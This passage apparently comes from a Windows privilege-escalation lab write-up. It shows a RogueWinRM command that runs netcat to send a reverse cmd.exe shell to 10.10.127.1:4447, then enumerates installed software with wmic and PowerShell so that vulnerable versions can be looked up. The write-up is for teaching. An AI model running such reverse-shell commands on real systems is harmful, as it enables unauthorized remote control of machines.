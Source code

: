 ```bash
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe 10.10.127.1 4447"
```

<img width="1612" height="623" alt="Screenshot 2025-08-16 184244" src="https://github.com/user-attachments/assets/e20d01af-01eb-4051-9c49-b810968fb8f6" />

## Abusing vulnerable software

### **Unpatched Software**

Some unpatched software can present various privilege escalation opportunities. List installed software and its versions with this command `wmic` 

```bash
C:\Users\thm-unpriv>wmic product get name,version,vendor
Name                                                            Vendor                                   Version
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910     Microsoft Corporation                    14.28.29910
AWS Tools for Windows                                           Amazon Web Services Developer Relations  3.15.1248
VNC Server 6.8.0                                                RealVNC                                  6.8.0.45849
Amazon SSM Agent                                                Amazon Web Services                      3.0.529.0
aws-cfn-bootstrap                                               Amazon Web Services                      2.0.5
Druva inSync 6.6.3                                              Druva Technologies Pte. Ltd.             6.6.3.0
AWS PV Drivers                                                  Amazon Web Services                      8.3.4
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910  Microsoft Corporation                    14.28.29910

```

Or you can use **PowerShell (Registry Check)**

```powershell
# 64-bit apps
Get-ItemProperty "HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\*" | 
  Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | 
  Format-Table -AutoSize

# 32-bit apps (on 64-bit Windows)
Get-ItemProperty "HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | 
  Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | 
  Format-Table -AutoSize
```

then search for potential vulnerabilities in [exploit-db](https://www.exploit-db.com/), [packet storm](https://packetstormsecurity.com/) or [Google](https://www.google.com/),

### **Case Study: Druva inSync 6.6.3**
